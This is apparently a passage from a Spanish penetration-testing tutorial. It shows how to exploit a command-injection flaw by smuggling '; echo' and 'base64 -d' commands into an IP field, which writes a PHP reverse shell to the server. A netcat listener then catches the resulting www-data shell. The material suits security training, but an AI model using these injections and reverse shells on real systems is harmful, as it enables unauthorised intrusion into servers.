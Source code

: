 ```php
$ip = '192.168.1.46';  # CHANGE THIS
$port = 1234;       # CHANGE THIS
```

<br>

Una vez modificado, tendremos que dirigirnos a alguna página web de codificación en **`Base64`** y copiar el resultado. Ahora, en la web objetivo introduciremos la `IP`, seguida de un `echo` con el código en **`Base64`** copiado y lo almacenaremos en un archivo ".txt"

```php
 127.0.0.1 ; echo "pega-aquí-el-código-en-base64" > shell.txt
```

<br>

Y comprobaremos que se ha generado el fichero en el servidor, realizando un `ls -l`.

![](/patrickcampillo/assets/img/cinjection_rshell/1.png)

<br>

Seguidamente, volveremos a introducir una dirección `IP`, seguida de un `cat` del fichero generado, y utilizando una tubería para almacenar el texto decodificado en un nuevo fichero ".php".

```php
127.0.0.1 ; cat shell.txt | base64 -d > shell.php
```



Y volveremos a comprobar que todo ha salido correctamente.

![](/patrickcampillo/assets/img/cinjection_rshell/2.png)

<br>

Una vez todo está listo, ya solo deberemos ejecutar **`netcat`** , de la siguiente forma:

```php
nc -v -n -l -p 1234
```

 

Y realizar una búsqueda de la `URL` en la cual nos encontramos, pero eliminando la almohadilla y añadiendo el nombre de nuestro fichero. Esa búsqueda se quedará en espera, y si nos fijamos en nuestro terminal, la conexión se habrá establecido. Pudiendo observar todo lo que deseemos, pero sabiendo que nuestro usuario es `www-data` y puede que no tengamos algunos permisos.

![](/patrickcampillo/assets/img/cinjection_rshell/3.png)



![](/patrickcampillo/assets/img/cinjection_rshell/4.png)





## Burp Suite y MetaSploit
